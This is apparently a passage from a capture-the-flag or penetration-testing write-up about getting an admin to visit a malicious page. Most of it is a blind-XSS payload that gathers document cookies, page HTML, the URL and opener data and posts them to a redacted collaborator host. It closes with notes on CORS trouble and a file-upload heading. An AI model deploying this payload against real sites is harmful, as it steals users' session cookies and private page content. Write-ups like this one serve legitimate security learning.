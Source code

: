 - Get the Admin to access my malicious site and dump content

- https://{REDACTED}/files/blind.html

- Payloads from:
  - https://github.com/LewisArdern/bXSS
  - https://ardern.io/2017/12/10/blind-xss/


```html
<h1>Test</h1>

<script>
  (function () {
    if (window.name !== '__') {

      try { dcoo = document.cookie } catch (e) { dcoo = null }
      try { inne = document.body.parentNode.innerHTML } catch (e) { inne = null }
      try { durl = document.URL } catch (e) { durl = null }
      try { oloc = opener.location } catch (e) { oloc = null }
      try { oloh = opener.document.body.innerHTML } catch (e) { oloh = null }
      try { odoc = opener.document.cookie } catch (e) { odoc = null }

      var _ = document.createElementNS('http://www.w3.org/1999/xhtml', 'form');
      var __ = document.createElementNS('http://www.w3.org/1999/xhtml', 'input');
      var body = document.getElementsByTagName('body')[0];

      __.setAttribute('value', escape(
          dcoo + '\r\n\r\n' + inne + '\r\n\r\n' + durl + '\r\n\r\n' +
          oloc + '\r\n\r\n' + oloh + '\r\n\r\n' + odoc
      ));
      __.setAttribute('name', '_');
      _.appendChild(__);
      _.action = 'https://{REDACTED}/collaborator';
      _.method = 'post';
      //_.target='_blank';

      body.appendChild(_);
      window.name = '__';
      _.submit();
      //history.back();
    } else { window.name = '' }
  })();
</script>
```

- No Cookies or Extra Data sent along with the request

- Start hitting into CORS issues... This might be a dead end


### Unrestricted File Upload

- You can submit files (images: `jpg` || `png`) to the `index` site
